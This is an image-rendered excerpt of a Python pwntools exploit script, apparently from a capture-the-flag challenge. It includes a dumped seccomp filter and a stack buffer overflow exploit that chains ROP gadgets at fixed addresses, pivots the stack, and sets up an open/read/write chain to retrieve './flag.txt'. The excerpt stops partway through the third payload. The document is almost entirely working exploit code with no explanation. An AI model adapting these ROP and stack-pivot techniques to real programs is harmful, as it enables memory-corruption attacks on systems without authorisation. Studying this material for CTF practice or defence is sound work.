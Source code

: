 ```py
# ==================== EXPLOIT ====================

'''
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
'''

def exploit():

    offset = 0x88
    rw_section = 0x4c9000
    read_gadget = 0x40197E
    syscall_ret = 0x41ae16   # syscall; ret;
    pop_rdi = 0x40204f       # pop rdi; ret;
    pop_rsi = 0x40a0be       # pop rsi; ret
    pop_rax = 0x450507       # pop rax; ret;
    pop_rdx = 0x48630b       # pop rdx; pop rbx; ret;
    mov_rdi = 0x433a83       # mov qword ptr [rdi], rdx; ret

    payload = flat({

        offset - 8: [
            rw_section - 0x200 + 0x80,                              # saved rbp 1
            read_gadget,                                            # saved rip 1
        ]
    })

    input("1st")
    sleep(0.5)
    p.sendlineafter(b'> ', payload)

    # Start at 0x4c8e00
    payload = b'./flag.txt\x00'.ljust(offset - 8, b'\x00')
    payload += p64(rw_section - 0x150 + 0x80)                       # saved rbp 2
    payload += p64(read_gadget)                                     # saved rip 2

    input("2nd")
    sleep(0.5)
    p.send(payload)

    payload = flat({

        offset - 8: [

            rw_section,

            # open(0x4c8e00, 0, 0)
            pop_rdi,
            0x4c8e00,
            pop_rsi,
```